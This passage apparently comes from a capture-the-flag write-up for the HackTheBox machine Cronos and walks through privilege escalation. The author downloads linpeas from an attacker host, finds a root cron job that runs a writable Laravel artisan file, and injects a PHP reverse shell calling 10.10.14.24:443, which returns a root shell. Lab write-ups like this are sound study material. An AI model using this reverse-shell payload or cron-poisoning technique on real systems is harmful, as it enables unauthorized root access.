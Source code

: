     www-data@cronos:/dev/shm$ wget 10.10.14.24/linpeas.sh
    --2020-04-08 15:22:05--  http://10.10.14.24/linpeas.sh
    Connecting to 10.10.14.24:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 159864 (156K) [text/x-sh]                                         
    Saving to: 'linpeas.sh'
    
    linpeas.sh          100%[===================>] 156.12K  --.-KB/s    in 0.05s
    
    2020-04-08 15:22:05 (2.98 MB/s) - 'linpeas.sh' saved [159864/159864]  
    

Now run it, and in the Cron jobs section, the last line is red:

    www-data@cronos:/dev/shm$ bash linpeas.sh                                                                 ...[snip]...
    [+] Cron jobs
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-jobs
    -rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab 
    ...[snip]...
    * * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
    ...[snip]...
    

The cron syntax here says that it will run every minute, as root:

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fcrontab-syntax.png) 

The command is `php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

I don’t really need to know what the Laravel artisan is doing. What does matter is that as www-data, I have write permissions on that file:

    www-data@cronos:/var/www/laravel$ ls -la artisan 
    -rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
    

### Poison artisan

I’ll open the file and add two lines at the top:`artisan`

    <?php
    
    $sock=fsockopen("10.10.14.24", 443);
    exec("/bin/sh -i <&3 >&3 2>&3");
    /*
    |--------------------------------------------------------------------------
    | Register The Auto Loader
    |--------------------------------------------------------------------------
    

Next time the cron runs, I get a callback:

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:36216.
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    